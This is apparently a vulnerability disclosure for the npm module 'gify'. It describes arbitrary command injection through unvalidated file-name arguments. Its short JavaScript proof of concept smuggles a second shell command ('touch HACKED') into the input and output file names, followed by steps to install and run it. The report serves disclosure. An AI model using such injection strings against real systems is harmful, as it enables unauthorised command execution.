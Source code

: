 # :bug: Description

The `gify` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var gify = require("gify");
gify("out.mp4\"`'; touch HACKED; #", 'out.gif\';touch HACKED; #');;
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gify # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created

